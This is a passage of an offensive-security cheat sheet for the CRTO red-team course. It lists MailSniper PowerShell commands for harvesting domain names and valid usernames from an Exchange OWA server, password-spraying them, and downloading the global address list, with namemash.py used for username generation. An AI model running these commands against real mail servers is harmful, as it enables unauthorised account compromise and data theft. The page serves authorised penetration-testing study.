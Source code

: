 # CRTO Cheat Sheet



{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/command-control/cobalt-strike/" %}

##

## Initial Compromise

### Generate Username Wordlist

#### namemash.py

<pre><code><strong>$ cat names.txt
</strong><strong>
</strong><strong>Cassy Foxy
</strong><strong>Alice Wondeful
</strong><strong>Joey Washbanger
</strong><strong>
</strong><strong>$ namemash.py names.txt > possible.txt
</strong></code></pre>

### Password Spraying OWA

#### MailSniper

`Invoke-DomainHarvestOWA` -Get NetBIOS name of the target domain with .

```powershell
PS> Invoke-DomainHarvestOWA -ExchHostname <mail.domain.com>
The domain appears to be: DOMAIN or domain.com
```

`Invoke-UsernameHarvestOWA` - Get valid usernames using wordlist.

```powershell
PS> Invoke-UsernameHarvestOWA -ExchHostname mail.domain.com -Domain domain.com 
-UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

`Invoke-PasswordSprayOWA` - Password spray user list with credential.

<pre class="language-powershell"><code class="lang-powershell"><strong>PS> Invoke-PasswordSprayOWA -ExchHostname mail.domain.com 
</strong>-UserList .\Desktop\valid.txt -Password Password123!
</code></pre>

`Get-GlobalAddressList` - Downloads global address list.

```powershell
PS> Get-GlobalAddressList -ExchHostname mail.domain.com -UserName 
domain.com\cfoxy -Password Password123! -OutFile .\global-addr-list.txt
```

## Host Reconnaissance

